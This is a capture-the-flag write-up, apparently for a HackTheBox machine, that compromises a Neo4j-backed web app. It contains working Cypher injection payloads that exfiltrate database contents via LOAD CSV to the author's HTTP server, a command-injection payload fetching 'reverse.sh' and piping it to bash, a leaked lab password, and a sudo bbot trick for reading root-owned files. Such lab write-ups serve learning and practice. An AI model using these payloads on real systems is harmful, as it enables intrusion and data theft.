



## Nmap

```
$ nmap -sC -sV 10.10.11.57

...
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 be:68:db:82:8e:63:32:45:54:46:b7:08:7b:3b:52:b0 (ECDSA)
|_  256 e5:5b:34:f5:54:43:93:f8:7e:b6:69:4c:ac:d6:3d:23 (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: GRAPH ASM
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
...
```

## Port 80

To make the site accessible we need to insert the following domain "cypher.htb" into the /etc/hosts of our PC.

```
$ echo "10.10.x.x cypher.htb" >> /etc/hosts
```



__Browsing the site we find various information about this service, in fact in the about section we can understand that it is a service that allows for an advanced Attack Surface Management (ASM) solution, that is, a technology designed to map and analyze the entire digital attack surface of an organization.__

To try the demo we have to log in, but the site does not allow user registration... So let's try to see with burp the request that will be there.

## Burpsuite



I tried to do a simple sql injection with the aim of taking a user who could access the site, but as soon as I did the test I got an unusual error.
__An error that I personally did not know...__

```
  File "/usr/local/lib/python3.9/site-packages/neo4j/_sync/io/_common.py", line 245, in on_failure
    raise Neo4jError.hydrate(**metadata)
neo4j.exceptions.CypherSyntaxError: {code: Neo.ClientError.Statement.SyntaxError} {message: Failed to parse string literal. The query must contain an even number of non-escaped quotes. (line 1, column 59 (offset: 58))
"MATCH (u:USER) -[:SECRET]-> (h:SHA1) WHERE u.name = 'test'' return h.value as hash"
                                                           ^}
```

Honestly I almost went crazy... in fact reading the documentation and many guides I understood that neo4j is a type of database that works with graphs.

## Injection

*Now the question arises... How can we do an injection?*
*How can we exploit this vulnerability to our advantage?*
Doing various research I discovered that no one talks specifically about neo4j, especially on the injection part.
Only a few sites talk about it:
- https://neo4j.com/developer/kb/protecting-against-cypher-injection/
- https://infosecwriteups.com/the-most-underrated-injection-of-all-time-cypher-injection-fa2018ba0de8
- https://www.varonis.com/blog/neo4jection-secrets-data-and-cloud-exploits
These are some guides that I personally used to develop (use) a query to get information.

The first query I used is the following:

```
' OR 1=1 WITH 1 as a  CALL db.labels() yield label LOAD CSV FROM 'http://10.10.X.X/?l='+label as l RETURN 0 as _0 //
```

__This allows me to see the various tables__

Output:
```
$ python -m http.server 80          
...
10.10.11.57 - - [02/May/2025 10:54:08] "GET /?l=USER HTTP/1.1" 200 -
10.10.11.57 - - [02/May/2025 10:54:08] "GET /?l=HASH HTTP/1.1" 200 -
10.10.11.57 - - [02/May/2025 10:54:08] "GET /?l=DNS_NAME HTTP/1.1" 200 -
10.10.11.57 - - [02/May/2025 10:54:09] "GET /?l=SHA1 HTTP/1.1" 200 -
10.10.11.57 - - [02/May/2025 10:54:09] "GET /?l=SCAN HTTP/1.1" 200 -
10.10.11.57 - - [02/May/2025 10:54:09] "GET /?l=ORG_STUB HTTP/1.1" 200 -
10.10.11.57 - - [02/May/2025 10:54:09] "GET /?l=IP_ADDRESS HTTP/1.1" 200 -
```

From here we can see that there are the following tables:
- USER
- HASH
- DNS_NAME
- SHA1
- SCAN
- ORG_STUB
- IP_ADDRESS

We are interested in knowing the user, so let's try to get at least the names of registered users with the following query:

```
' OR 1=1 WITH 1 as a MATCH (f:USER) UNWIND keys(f) as p LOAD CSV FROM 'http://10.10.X.X/?' + p +'='+toString(f[p]) as l RETURN 0 as _0 //
```

Output:
```
$ python -m http.server 80  
...
10.10.11.57 - - [02/May/2025 10:57:38] "GET /?name=graphasm HTTP/1.1" 200 -
```

ok, we have a user called: __graphasm__
Now let's try to get the values ​​in __HASH__:

```
' OR 1=1 WITH 1 as a MATCH (f:SHA1) UNWIND keys(f) as p LOAD CSV FROM 'http://10.10.X.X/?' + p +'='+toString(f[p]) as l RETURN 0 as _0 //
```

Output:

```
$ python -m http.server 80
...
10.10.11.57 - - [10/Apr/2025 23:08:09] "GET / value=9f54ca4c130be6d529a56dee59dc2b2090e43acf HTTP/1.1" 200 -
```

Ok we have the HASH value: 9f54ca4c130be6d529a56dee59dc2b2090e43acf

We have:
- User: __graphasm__
- HASH: __9f54ca4c130be6d529a56dee59dc2b2090e43acf__

I tried with crackstation (which I highly recommend if you have a low-powered PC) to see if we could crack the password, but I didn't receive anything...

So we have to look again!

## Enumeration directory

Doing an enumeration with dirsearch I found several directories, but one intrigued me more than it should have...

```
$ dirsearch -u http://cypher.htb/
...
[11:05:41] 301 -  178B  - /testing  ->  http://cypher.htb/testing/ 
...
```



Here we have a file called *custom-apoc-extension-1.0-SNAPSHOT.jar*, after downloading it I tried to open it with jd-gui and I noticed that it is a plugin for neoj4

Reading it I saw this very interesting part of code... in fact thinking about it I noticed that I could try to do a command injection since the input was not sanitized

```
...
    String[] command = { "/bin/sh", "-c", "curl -s -o /dev/null --connect-timeout 1 -w %{http_code} " + url };  
    System.out.println("Command: " + Arrays.toString((Object[])command));  
    Process process = Runtime.getRuntime().exec(command);
...
```

So I tried to use this plugin in injection

# Exploit

I have tried several ways, and have found success through this query:

```
' return h.value as value UNION CALL custom.getUrlStatusCode('http://10.10.14.6') YIELD statusCode AS value  RETURN value ; //
```

Ok what now? Now let's try to put a rce inside the query so that we can get access to the machine:

```
' return h.value as value UNION CALL custom.getUrlStatusCode('http://10.10.X.X; curl http://10.10.X.X/reverse.sh | bash') YIELD statusCode AS value  RETURN value ; //
```

We are inside!

# User

inside the home we can find a user called __graphasm__, here we can find the user that unfortunately we can not read. However we have a file bbot_preset.yml, reading it we have:

```
$ cat bbot_preset.yml

targets:
  - ecorp.htb

output_dir: /home/graphasm/bbot_scans

config:
  modules:
    neo4j:
      username: neo4j
      password: cU4btyib.20xtCMCXkBmerhK
```

I tried these credentials, first with neo4j with no success... Then I thought "maybe they are the same credentials as __graphasm__?" So I tried to log in via ssh and I got in!

```
$ cat user.txt
f0********************29
```

# Root

I tried to see what I could do with sudo

```
$ sudo -l

Matching Defaults entries for graphasm on cypher:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User graphasm may run the following commands on cypher:
    (ALL) NOPASSWD: /usr/local/bin/bbot
```

we have this program __"/usr/local/bin/bbot"__.

I saw this program and found out that it is a program for OSINT

```
$ /usr/local/bin/bbot
  ______  _____   ____ _______
 |  ___ \|  __ \ / __ \__   __|
 | |___) | |__) | |  | | | |
 |  ___ <|  __ <| |  | | | |
 | |___) | |__) | |__| | | |
 |______/|_____/ \____/  |_|
 BIGHUGE BLS OSINT TOOL v2.1.0.4939rc

www.blacklanternsecurity.com/bbot
...
```

After some research I managed to develop a way to read the root.txt file, in fact if we enter the following command:

```
$ sudo /usr/local/bin/bbot -t /root/root.txt -t ecorp.htb
```

This simply says to take a file of various targets, these targets will be given in output, in fact we will have as output of the command:

```
$ sudo /usr/local/bin/bbot -t /root/root.txt -t ecorp.htb
...
[SCAN]                  dramatic_gary (SCAN:8d********************2f)   TARGET  (in-scope, target)
...
```


## End

Honestly this machine has put me to the test, in fact I did not know this technology and I enjoyed banging my head against it to learn...

I can say that I am very satisfied with this!

Thanks for reading

__- 1xA1e -__